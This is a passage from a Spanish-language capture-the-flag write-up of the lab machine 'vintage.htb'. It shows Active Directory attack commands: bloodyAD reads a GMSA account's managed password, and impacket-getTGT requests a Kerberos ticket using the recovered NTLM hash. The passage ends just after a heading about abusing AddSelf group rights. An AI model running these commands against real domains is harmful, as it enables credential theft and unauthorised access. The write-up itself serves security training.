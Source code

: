 A través de la herramienta de **bloodyAD** y autenticándonos con el ticket TGT que tenemos almacenado, verificaremos que podemos leer la contraseña del GMSA y otbener su hash NTLM.

Este comando nos permitirá acceder al atributo msDS-ManagedPassword y obtener la contraseña del GMSA (_GMSA01$@vintage.htb)_, la cual luego podremos utilizar para obtener su hash NTLM.

{% code overflow="wrap" %}
```bash
bloodyAD --host "dc01.vintage.htb" -d "vintage.htb" -k get object 'GMSA01$' --attr msDS-ManagedPassword
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/2722_vmware_5nRbkHGVJT.png" alt=""><figcaption></figcaption></figure>

### **Abusing AddSelf Privileges with bloodyAD - Adding a Member to a Group**

Una vez obtenido el hash NTLM del GMSA (GMSA01$@vintage.htb), procederemos a solicitar su TGT (Ticket Granting Ticket) para autenticarnos mediante Kerberos debido que la autenticación a través de NTLM parece estar deshablitada o protegida.

Para obtener el TGT, utilizaremos el siguiente comando con el hash NTLM que hemos obtenido previamente.&#x20;

Una vez obtenido el ticket TGT, lo almacenamos nuevamente en la variable KRB5CCNAME para poder utilizarlo en futuros pasos.

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash">impacket-getTGT vintage.htb/GMSA01$ -hashes aad3b435b51404eeaad3b435b51404ee:a317f224b45046c1446372c4dc06ae53
<strong>
</strong><strong>export KRB5CCNAME=GMSA01\$.ccache
</strong></code></pre>

<figure><img src="../../../.gitbook/assets/2723_vmware_ZwN5Qpvwlz.png" alt=""><figcaption></figcaption></figure>

Finalmente, verificamos que el TGT sea válido y que esté correctamente almacenado en nuestra variable utilizando el siguiente comando:

```bash
klist -e
```

<figure><img src="../../../.gitbook/assets/2724_vmware_LsaKrC2mx6.png" alt=""><figcaption></figcaption></figure>
